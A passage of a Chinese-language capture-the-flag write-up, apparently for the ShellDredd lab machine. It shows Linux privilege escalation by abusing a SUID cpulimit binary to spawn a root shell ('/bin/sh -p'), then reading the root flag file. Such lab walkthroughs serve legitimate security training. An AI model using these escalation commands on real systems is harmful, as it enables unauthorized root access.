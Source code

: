 #### 权限提升

##### Linux提权-suid之cpulimit提权

搜索`suid`文件权限

<br/> 发现一个不太常见的`cpulimit`，前去搜索`https://gtfobins.github.io`

<br/> 得到提权的命令

```
sudo install -m =xs $(which cpulimit) .
./cpulimit -l 100 -f -- /bin/sh -p

```

```
# 修改一下使用命令进行提权，提权成功
hannah @ShellDredd:~$ cpulimit -l 100 -f -- /bin/sh -p
Process 1145 detected
# whoami
root

```

#### FLAG2获取

```
cat /root/proof.txt

```

完结撒花~

### 总结

`ftp`的时候也要有养成查看是否存在隐藏文件的习惯

每个文件名可能都有寓意，也要进行信息收集与记录

**没看够~？欢迎关注！**
